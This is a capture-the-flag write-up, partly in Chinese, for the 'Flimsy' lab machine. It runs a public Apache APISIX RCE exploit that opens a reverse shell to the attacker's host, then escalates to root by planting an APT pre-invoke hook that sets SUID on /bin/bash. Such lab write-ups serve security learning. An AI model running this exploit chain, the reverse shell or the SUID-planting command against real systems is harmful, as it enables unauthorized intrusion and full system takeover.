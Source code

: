 # Flimsy

### Nmap Scanning 

```
	┌─(kali?kali)-[~]
	└──╼sudo nmap 192.168.246.220 -Pn -T4 -sV -sC --min-rate=1000 -p 1-65535
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-11 15:45 UTC
	Nmap scan report for 192.168.246.220
	Host is up (0.00063s latency).
	Not shown: 65398 filtered tcp ports (no-response), 132 filtered tcp ports (host-prohibited)
	PORT      STATE  SERVICE    VERSION
	22/tcp    open   ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
	|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
	|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
	80/tcp    open   http       nginx 1.18.0 (Ubuntu)
	|_http-title: Upright
	|_http-server-header: nginx/1.18.0 (Ubuntu)
	3306/tcp  open   mysql      MySQL (unauthorized)
	8080/tcp  closed http-proxy
	43500/tcp open   http       OpenResty web app server
	|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
	|_http-server-header: APISIX/2.8
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 136.70 seconds
```

### searchsploit

```
┌─(kali?kali)-[~]
└──╼$ searchsploit APISIX
---------------------------------------------------------- ---------------------------------
 Exploit Title                                            |  Path
---------------------------------------------------------- ---------------------------------
Apache APISIX 2.12.1 - Remote Code Execution (RCE)        | multiple/remote/50829.py
---------------------------------------------------------- ---------------------------------
````

### Apache APISIX 2.12.1 - Remote Code Execution (RCE)

```
┌──(kali㉿kali)-[~]
└─$ python 50829.py http://192.168.246.220:43500/ 192.168.45.161 4444

                                   .     ,                                                                                
        _.._ * __*\./ ___  _ \./._ | _ *-+-                                                                               
       (_][_)|_) |/'\     (/,/'\[_)|(_)| |                                                                                
          |                     |                                                                                         
                                                                                                                          
                (CVE-2022-24112)                                                                                          
{ Coded By: Ven3xy  | Github: https://github.com/M4xSec/ }   
```

接收端順利接上但是只有一般權限，先拿個 local.txt

```
┌──(kali㉿kali)-[~/penelope]
└─$ python penelope.py 4444
[+] Listening for reverse shells on 0.0.0.0:4444 →  127.0.0.1 • 192.168.64.2 • 172.17.0.1 • 192.168.45.161
➤  💀 Show Payloads (p) 🏠 Main Menu (m) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from 🐧 192.168.246.220 😍 - Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/192.168.246.220/192.168.246.220.log 📜
franklin@flimsy:/root$ ls
ls: cannot open directory '.': Permission denied
...
franklin@flimsy:/$ cd home/franklin/
franklin@flimsy:/home/franklin$ ls
etcd-v3.4.13-linux-amd64  etcd-v3.4.13-linux-amd64.tar.gz  local.txt
franklin@flimsy:/home/franklin$ cat local.txt 
```

### Crontab 排程管理尋找提權

接下來卡了一段時間。後來去看別人的 writeup 才知道要去工作排程找到以 root 身分執行的檔案

```
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root apt-get update
* * * * * root /root/run.sh
```

因為第二支 `run.sh` 無法編輯，所以朝apt去下手，這邊補一下apt的知識：

> [!NOTE]  
> `apt-get update` 命令會檢查哪些路徑以更新軟體列表，您可以查看 APT 的配置文件和目錄。APT 在執行 `apt-get update` 時會檢查以下路徑：
> 
> 1. 軟體源列表文件：
>     - `/etc/apt/sources.list`：這是 APT 主要使用的軟體源列表文件。它包含了系統配置的軟體源。
>     - `/etc/apt/sources.list.d/`：該目錄下的文件是附加的軟體源列表文件，這些文件將與 `sources.list` 中的源合併。每個文件代表一個軟體源。
> 2. APT 配置文件目錄：
>     - `/etc/apt/apt.conf.d/`：該目錄包含了一系列的 APT 配置文件，這些文件允許您對 APT 的行為進行定制。這些配置文件中的指令會影響到 `apt-get update` 命令的行為。
> 
> `/etc/apt/apt.conf.d` 是一個目錄，通常用於存放針對 APT (Advanced Package Tool) 的配置文件。在這個目錄中，你可以放置以數字開頭的文件，這些數字表示配置文件的優先級，數字越小，優先級越高。例如，`00rooted` 這樣的文件名意味著它會在其他以數字開頭的文件之前被處理。
>

將bash加上SetUID權限，SetUID權限會使得該文件以所有者的身分執行而非現在的呼叫者，所以可以使一般使用者以管理員的身分執行bash：

```
cd /etc/apt/apt.conf.d
echo 'APT::Update::Pre-Invoke {"chmod +s /bin/bash"};' > 00rooted
```

最後在呼叫bash起來就可以拿到系統管理員的flag了：

```
franklin@flimsy:/etc/apt/apt.conf.d$ bash -p
bash-5.0# ls
00rooted          10periodic           20archive        20snapd.conf           70debconf
01-vendor-ubuntu  15update-stamp       20auto-upgrades  50command-not-found    99update-notifier
01autoremove      20apt-esm-hook.conf  20packagekit     50unattended-upgrades
bash-5.0# cd /root
bash-5.0# ls
build.sh  default.etcd  flimsy  nohup.out  proof.txt  run.sh  snap
bash-5.0# cat proof.txt 
```

> [!NOTE]  
> `bash -p` 讓 Bash 不去清除環境變數中的一些特權屬性，比如 SUID 標誌。如果你的 bash 可執行文件設置了 SUID（Set User ID）位，則 bash -p 會保留這些權限，從而允許你以特權（例如 root 權限）運行這個 Shell。
